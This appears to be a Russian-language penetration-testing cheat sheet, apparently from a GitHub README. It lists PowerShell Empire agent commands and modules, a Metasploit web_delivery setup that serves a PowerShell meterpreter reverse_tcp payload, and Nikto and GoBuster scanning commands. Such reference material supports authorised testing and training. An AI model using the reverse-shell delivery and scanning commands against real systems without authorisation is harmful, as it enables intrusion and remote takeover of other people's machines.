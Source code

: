## 🔹 Управление агентами
```
agents                         # Список активных сессий
interact <agentName>          # Взаимодействие с агентом
usemodule <modulePath>        # Выбор модуля
```

---

# 🧩 Полезные модули Empire

| Категория | Модуль | Назначение |
|----------|--------|------------|
| host info | `powershell/situational_awareness/host/computerdetails` | Аналог `sysinfo` |
| network | `powershell/situational_awareness/network/portscan` | Сканер портов |
| payloads | `powershell/code_execution/invoke_metasploitpayload` | Вызывает MSF web_delivery |

---

# 🎯 Metasploit + PowerShell

## Web Delivery:
```
use multi/script/web_delivery
set TARGET 2                    # PowerShell
set PAYLOAD windows/meterpreter/reverse_tcp
run
```

___
___
# 🌐 Web Application Pentesting
## 🛡️ Nikto — Web Server Vulnerability Scanner
```bash
nikto -h TARGET
nikto -h TARGET -o nikto.html -Format html  # HTML отчёт
```

---

## 📁 GoBuster — Файлы и директории
```bash
gobuster dir -u TARGET -w wordlist.txt                         # Стандартный перебор
gobuster dir -u TARGET -w wordlist.txt -b 403,404              # Исключить ответы 403, 404
gobuster dir -u TARGET -w wordlist.txt -x .php,.txt            # Поиск по расширениям
gobuster dir -u TARGET -w wordlist.txt -r                      # Следовать редиректам
```

---